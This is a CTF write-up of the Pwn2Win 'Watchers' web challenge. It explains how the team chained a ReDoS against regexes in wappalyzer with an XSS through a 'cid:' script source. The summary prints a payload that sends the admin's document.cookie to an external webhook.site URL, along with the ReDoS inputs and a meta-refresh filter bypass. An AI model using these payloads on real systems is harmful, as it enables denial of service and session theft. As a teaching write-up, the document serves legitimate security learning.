






# Watchers (2 solves) &mdash; writeup by justCatTheFish

Last weekend, our team took part in a cool CTF -- Pwn2Win. We've got a pretty nice score and managed to solve a few hard challenges. In this writeup, we will present a solution to the *Watchers* challenge that has been solved only by two teams. The challenge involved exploitation of not so common Regular Expression Denial of Service (ReDoS) technique combined with Cross-Site Scripting (XSS). 


*The [author](https://twitter.com/vrechson) of the challenge released the [source code](https://github.com/pwn2winctf/challenges-2020/tree/master/web-Watchers) of the challenge so you can try it out locally.*


## Challenge


> Welcome to Static Web Host! During all these years of static website development, Rebellious Fingers found out that the biggest hole in our security is the use of insecure third-party applications. To help our members mitigate this problem, and not be compromised by our enemies, we decided to implement a third-party app to help them identify which technologies their pages are running so they can check whether there is anything vulnerable before deployment.
> 
> Our service is still in beta, so please report any problems you find so our developers can analyze them.




### Quick overview

There are three functionalities of the web application presented to us by the authors: 
- *content upload* of three different HTML pages: home, about and contact
- *check service* that displays metadata about uploaded files when URL was provided
- *bug report* that sends a generated HTML page to the admin for checking it with `wappalyzer`

Without exploiting any vulnerabilities, URLs of generated pages will not be displayed to the user, and because of which *check service* and *bug reports* can't be used. This leads us to the first objective of the mission -- **leak the URL of a generated page.**. 


### Backend
Although in the challenge we weren't provided with a complete source code of the backend server, there was a link to the source of `weaponlyzer` function [./weaponlyzer.php](./weaponlyzer.php). In that code, we could see that the engine responsible for fetching metadata about files was a tool called [wappalyzer](https://github.com/AliasIO/wappalyzer) that was run with the code below, where `$targets[$i]` was a URL to a generated file for three home, about and contact pages.

```php
shell_exec('timeout -k 3s 20s wappalyzer -w 8 ' . escapeshellarg(escapeshellcmd($targets[$i])));
```

 The most and only interesting part of the code is:

```php
} elseif ($output == '') {
    return 'Couldn\'t analyze your file, please ask the admin to try weaponlyze in your page - URL: ' . substr(parse_url($targets[$i])["path"], 1);
} else {
```

If calling `shell_exec` returns an empty string, we will see the URL for the page that triggered the error. One more very important observation that will come handy later on, is that the page and any following ones will not be removed from the disk. 

To achieve the goal of getting a URL of a generated page, we need to **make `wappalyzer` return nothing**, which it does if the `timeout` command kills the process after 20 seconds, for instance. We confirmed that by lowering the timeout from original `20s` to `1s` and firing the wappalyzer on a constantly loading page.

### Content Security Policy

One important addition that can be spotted in the provided screenshot is the appended part of the code to each page. It contains a very restrictive *Content Security Policy* set to `default-src: none` which prevents from executing arbitrary JavaScript code and is most likely not bypassable. 


### Wappalyzer

Wappalyzer is generally known as a browser [extension](https://chrome.google.com/webstore/detail/wappalyzer/gppongmhjkpfnbhagpmjfkannfbllamg?hl=en) that identifies technologies used on websites. It has over 1M users in the store so one could say it's kind of popular. 

There is a variation of it in the form of a standalone [npm package](https://www.npmjs.com/package/wappalyzer) which was also used in the challenge. The recent versions use a headless browser for dynamic analysis of the page, but with respect to the CSP for code execution. The tool heavily relies on regular expressions, available [here](https://github.com/AliasIO/wappalyzer/blob/dfe686e524345145bd6286de2148b87d83b575d4/src/apps.json), which authors managed to leverage and created a cool challenge about it as the result.


### Defensive strategies
We could potentially abuse the time loading of the page by crafting a very long payload. To prevent that, each page could maximally consist of 1500 characters.

Another implemented protection was blocking *meta redirect* that was supposed to protect against redirection of a page to another one. We crafted an unintentional bypass to that with `<meta http-equiv="refres&#x68;" content="1;https://example.org">` but we didn't find it useful in the final solution. The only advantage it gave us was discovering HTTP headers `Referer: http://localhost/page/xxx` and `User-Agent` indicating `Headless Chrome 80` browser from which the admin visited. 

The third protection was reCAPTCHA that was painful because we quickly ran out of available attempts. This was meant to prevent the application from being DDoS'ed through submissions.


### Front end

It was the Vue.js application that mostly relies on the client-side. Although there was nothing specific in the source code it guided us with which direction we should take. 

For instance, the snippet below hinted us that probably upon sending a link to the admin, it first runs checks on it before displaying the page. That is because of different types of token in the parameters, probably for bypassing the reCAPTCHA verification. 

```js
    // we assume it was for admin
    request.post('/check.php', {
        url: this.$route.query.url,
        token: this.$route.query.token
    })
    
    //and this was for us
    request.post('/check.php', {
        url: this.initial,
        'g-recaptcha-response': this.token
    })
``` 

Thanks to that, if we managed to **trigger an XSS on the generated page**, we could execute JavaScript code on the admin's behalf, if only our assumptions were correct.


Another hint that we discovered in the front-end code was the Vue's attribute `v-html` that injects raw HTML from the version to the page, without escaping it. 

```html
<code v-html="data.version"></code>
```

This meant that if there was an XSS, it was most likely here.

## Solution
### Idea
With the prior research it was clear that we have to do basically two things:
- attack the wappalyzer with [ReDos](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS) attack
- trigger XSS on the *check* endpoint and send it to the admin

### Vulnerabilities
We manually researched for interesting regular expressions in [./apps.json](apps.json) from over 1300 different ones. Of course not one by one, but with some clever assumptions. 

#### ReDoS




Finding a regular expression that would leverage the ReDoS was the most challenging part. With some hard work and a little bit of luck, we found an interesting regular expression that could potentially lead to denial of the service. It was in the `VideoJS` component.

```json    
  "VideoJS": {
    "cats": [
      14
    ],
    "html": "<div[^>]+class=\"video-js+\">",
    "icon": "VideoJS.svg",
    "js": {
      "videojs.VERSION": "^(.+)$\\;version:\\1",
      "videojs": "",
      "VideoJS": ""
    },
    "script": [
      "zencdn\\.net/c/video\\.js",
      "^(?:https?:)?\\/\\/(?:[^\\/]+\\.)*cdnjs\\.cloudflare\\.com\\/ajax\\/libs\\/video\\.js\\/([\\d\\.]+)\\/\\;version:\\1"
    ],
    "website": "http://videojs.com"
  }
```

More specifically 

```re
/^(?:https?:)?\/\/(?:[^\/]+\.)*cdnjs\.cloudflare\.com\/ajax\/libs\/video\.js\/([\d\.]+)\/\;version:\1/
```

*Please note that the `\;version:\1` part is only appended to retrieve version from the regular expression when parsing the code and therefore is not part of the executed expression.*

The regular expression can be visualized as:



We can see that there is a double loop and a dot character matches both `None of: "/"` and `.`. This is exactly what we need to perform backtracking based ReDoS attack. With the payload including enough dots, we can achieve our goal with the below snippet.

```html
<script   
  src="https://.....................................adnjs.cloudflare.com/ajax/libs/video.js/12312/">
</script>
```


We also found another vulnerable RegExp in `Carbon Ads` package which is almost the same as the above one, shown below.

```json 
    "Carbon Ads": {
      "cats": [
        36
      ],
      "html": "<[a-z]+ [^>]*id=\"carbonads-container\"",
      "icon": "Carbon Ads.png",
      "js": {
        "_carbonads": ""
      },
      "script": "^(?:https?:)?\\/\\/(?:[^\\/]+\\.)*carbonads\\.com\\/",
      "website": "http://carbonads.net"
    }
```

#### Pass the check



We managed to retrieve the URL for our single note, but when we submit it to the *check* endpoint, we get a message *Couldn't analyze your file :(*. 

With enough attempts, we could probably create a note that is executing near the allowed time and therefore returns two different results with the same note. But would the admin spend over 20 seconds to wait for the page to load? We doubted it and went into researching other possibilities despite the fact that this solution would be even more beautiful in our opinion :)

Now, the fact that other pages are not being removed comes really handy. We noticed that if we change the `-home.html` suffix in the URL of the page `pages/b699e61f9d5ce40a7caa8d7b3e66be98979a5b9f838073a833739c8b3f54d726/fd8f9ba6ede0-home.html` to `-about.html` we could see our 2nd page. Viola, that's exactly what we need. 

#### Getting the XSS


We've got all you need but where is the XSS? We've analyzed a lot of expressions in the search for something that would allow us to inject `<>` characters. There is a lot of rules like

```json
{
  "js": {
    "AFRAME.version": "^(.+)$\\;version:\\1"
  }
}
```
or 

```json
{
  "meta": {
    "ajs-version-number": "^(.+)$\\;version:\\1",
  }
}
```

Looks like simple injection right? We first tried with the code below but had no luck.

```html
<script>
  var AFRAME = {version: "<u>123</u>"}
</script>
```

Although it worked locally, we quickly discovered that because of the CSP the code will not be evaluated on the challenge. This is because the driver evaluates scripts from the page and then looks if the variable was defined [here](https://github.com/AliasIO/wappalyzer/blob/dfe686e524345145bd6286de2148b87d83b575d4/src/drivers/npm/driver.js#L386)

```js
const js = processJs(
  await page.evaluate(getJs), 
  this.wappalyzer.jsPatterns
)

```

But the CSP blocks script evaluation and because of that, it will fail. 

What about `<meta>` tag? Simple code below should get us an XSS, right?

```html
<meta 
  name="ajs-version-number"
  content="<u>123</u>"
>
```

Nope, it didn't work. After investigation we learned that meta tags are parsed with a simple [regex](https://github.com/AliasIO/wappalyzer/blob/dfe686e524345145bd6286de2148b87d83b575d4/src/wappalyzer.js#L185) that basically doesn't allow `>` character inside the `<meta>` tag.

```js
const regex = /<meta[^>]+>/gi
```

With these two observations we stopped looking at the `js` and `meta` properties and focused on other resources. After some time we discovered the package with a very interesting RegExp. 


```json 
    "AppDynamics": {
      "cats": [
        10
      ],
      "icon": "AppDynamics.png",
      "script": "adrum\\.js|adrum.([0-9].*)\\.js\\;version:\\1",
      "website": "https://appdynamics.com"
    },
```

Which can be visualized as the image below. 



After `adrum.1` prefix, we can add any payload as long as it ends with `.js` suffix. We tried a simple payload shown below but it returns a urlencoded string, unfortunately.

```html
<script 
  src="adrum.1<u>foo.js">
</script>

<!-- it returns http://example.org/adrum.1%3Cu%3Efoo.js -->
```

Although it looks like a dead at the first glance, we knew a bypass to this already and which is a custom protocol that does not support percent-encoding. One of them is `cid:`, so by sending the below payload the alert pops out.


```html
<script 
  src="cid:adrum.1123.js">
</script>
```

### Summary

To sum up, we performed the following steps to retrieve the flag.

1. We submitted two pages to the server:
```html
<script
  src="https://.....................................adnjs.cloudflare.com/ajax/libs/video.js/12312/">
</script>
```

and 

```html
<script 
  src="cid:adrum.1.js">
</script>

<!-- base64 decoded:
fetch('https://webhook.site/1ce7351e-a907-4f33-8776-f806ea62c57c/?c='+escape(document.cookie))
-->
```


2. We got the path from the error message: `pages/b699e61f9d5ce40a7caa8d7b3e66be98979a5b9f838073a833739c8b3f54d726/77f5aaead21d-home.html` and sent the replaced one `pages/b699e61f9d5ce40a7caa8d7b3e66be98979a5b9f838073a833739c8b3f54d726/77f5aaead21d-about.html` to the admin.

3. We enjoyed the flag that arrived at our server directly from the admin's cookies ;)  


*We recorded these steps in the form of a video: https://youtu.be/bXBSTmWqVys, enjoy!*

**CTF-BR{stackoverflow.com/revisions/1732454/11}**

Thanks to the authors for such an enjoyable puzzle!